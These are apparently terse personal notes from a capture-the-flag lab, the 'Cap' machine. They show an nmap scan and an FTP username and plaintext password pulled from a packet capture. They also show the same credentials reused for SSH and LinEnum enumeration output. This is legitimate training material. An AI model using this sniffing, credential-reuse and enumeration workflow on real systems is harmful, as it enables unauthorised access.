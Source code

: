 # Cap
nmap -sS -T4 -A 10.10.10.245
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn


username called Nathan

wireshark file
1	0.000000	10.10.17.198	10.10.10.245	TCP	68	55142 → 80 [ACK] Seq=1 Ack=1 Win=502 Len=0 TSval=1510724671 TSecr=733458534
2	0.000127	10.10.17.198	10.10.10.245	TCP	68	55140 → 80 [ACK] Seq=1 Ack=1 Win=502 Len=0 TSval=1510724671 TSecr=733457614
3	0.658065	10.10.17.198	10.10.10.245	TCP	68	[TCP Dup ACK 1#1] 55142 → 80 [ACK] Seq=1 Ack=1 Win=502 Len=0 TSval=1510725044 TSecr=733458534

##Hints

For user, I would find a tool good for reading pcap files. There's a tool named after a fish (that has an entire week dedicated to it) that I found useful for this.

User: Count down from 2 and it will find you. Parse what you find.

pcab files 

found on the 0.pcab

36	4.126500	192.168.196.1	192.168.196.16	FTP	69	Request: USER nathan

40	5.424998	192.168.196.1	192.168.196.16	FTP	78	Request: PASS Buck3tH4TF0RM3!

open ftp connection
found the user flage
ftp> get user.txt

try the same credintials in ssh

ls

═════════╣ Finding emails inside logs (limit 70)
      2 giometti@linux.it
      2 dm-devel@redhat.com

/tmp/LinEnum.sh:    echo -e "\e[00;33m[-] htpasswd found - could contain passwords:\e[00m\n$htpasswd"
/tmp/LinEnum.sh:  echo -e "\e[00;31m[-] Contents of /etc/passwd:\e[00m\n$readpasswd" 
/tmp/LinEnum.sh:  echo -e "\e[00;31m[-] Password and storage information:\e[00m\n$logindefs" 
/tmp/LinEnum.sh:  echo -e "\e[00;33m[+] We can connect to Postgres DB 'template0' as user 'postgres' with no password!:\e[00m\n$postcon1" 
/tmp/LinEnum.sh:  echo -e "\e[00;33m[+] We can connect to Postgres DB 'template0' as user 'psql' with no password!:\e[00m\n$postcon2" 
/tmp/LinEnum.sh:  echo -e "\e[00;33m[+] We can connect to Postgres DB 'template1' as user 'postgres' with no password!:\e[00m\n$postcon11" 
/tmp/LinEnum.sh:  echo -e "\e[00;33m[+] We can connect to Postgres DB 'template1' as user 'psql' with no password!:\e[00m\n$postcon22" 
